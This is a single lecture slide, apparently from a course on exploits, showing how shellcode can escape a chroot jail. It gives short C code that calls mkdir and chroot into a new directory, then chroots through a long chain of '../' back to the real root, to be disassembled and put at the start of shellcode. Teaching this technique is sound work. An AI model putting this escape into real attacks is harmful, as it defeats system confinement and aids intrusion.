

Solution
Chroot back to the "real" root at the beginning of the shell code
Make a new directory "sh" for referencing, then use many "../" to get a real root directory
The following shows the correspond C code:

Compile and disassemble the above program and then get the inside to the beginning of the shell code.
int main()
{
        mkdir("sh",0755);
        chroot("sh");
        /* many "../" */
        chroot("../../../../../../../../../../../../../../../../");
}
8